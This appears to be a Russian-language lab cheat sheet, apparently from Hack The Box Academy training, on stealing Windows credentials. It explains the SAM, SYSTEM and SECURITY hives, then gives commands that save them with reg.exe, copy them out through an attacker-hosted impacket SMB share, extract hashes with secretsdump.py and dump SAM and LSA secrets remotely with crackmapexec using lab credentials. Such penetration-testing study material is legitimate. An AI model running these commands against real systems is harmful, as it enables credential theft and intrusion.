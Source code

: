 `hklm\sam`

Содержит хэши, связанные с паролями локальных учетных записей. Нам понадобятся хэши, чтобы мы могли взломать их и получить пароли учетных записей пользователей в открытом виде.

`hklm\system`

Содержит загрузочный ключ системы, который используется для шифрования базы данных SAM. Нам понадобится бутключ для расшифровки базы данных SAM.

`hklm\security`

Содержит кэшированные учетные данные для учетных записей домена. Нам может быть полезно иметь это на присоединенной к домену цели Windows.

#### Использование сохранения reg.exe для копирования кустов реестра
```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
```

#### Создание общего ресурса с помощью smbserver.py
```shell-session
lizergindoma@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

#### Запуск secretsdump.py
```shell-session
lizergindoma@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

#### Удаленный сброс секретов LSA
```shell-session
lizergindoma@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

#### Удаленный сброс SAM
```shell-session
lizergindoma@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```
